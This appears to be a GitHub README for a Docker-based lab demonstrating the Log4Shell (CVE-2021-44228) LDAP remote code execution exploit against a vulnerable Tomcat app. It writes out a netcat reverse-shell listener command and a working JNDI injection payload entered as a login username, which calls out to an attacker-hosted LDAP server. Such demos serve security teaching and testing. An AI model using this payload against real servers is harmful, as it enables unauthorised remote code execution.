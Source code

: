 # log4j-poc

## An LDAP RCE exploit for CVE-2021-44228 Log4Shell

### Description

To demonstrate the log4j vulnerability two separate docker containers will be created. The first one (cve-web) contains a Tomcat 8 server which can be accessed by port 8080. This server has a vulnerable app (log4shell) deployed on it.
The second container (cve-poc) is used to attack the vulnerable server. To communicate with the vulnerable server, it hosts a ldap server.

---

The remote exploit app in this demo is based on that found at <https://github.com/kozmer/log4j-shell-poc>

The RMI exploit against the Tomcat 9 / Java 11 server is described here: <https://www.veracode.com/blog/research/exploiting-jndi-injections-java> (Jan 3, 2019) by Michael Stepankin

### Prerequisites

This code requires Docker and Docker Compose

### Installation

- edit docker-compose.yml file:
  - change value of #LISTENER_ADDR to the local IP of your docker hostmachine
- build docker containers:

```
docker-compose build
```

### Run Web App Attack Demo

- Setup your netcat listener in the first terminal

```
    nc -lv 10.10.10.31 9001
```

- Start the docker containers in a second terminal

```
   docker-compose up
```

- Navigate to <http://10.10.10.31:8080/log4shell>
- Login as "regular" user:
  - Enter the username: `admin`
  - Enter the password: `password`
  - Press the "login" button
- try out log4j vulnerability
  - Return to login at <http://10.10.10.31:8080/log4shell>
  - Enter the username `${jndi:ldap://172.16.238.11:1389/a}`
  - Select the "login" button
  - Check for connection on your `nc` listener
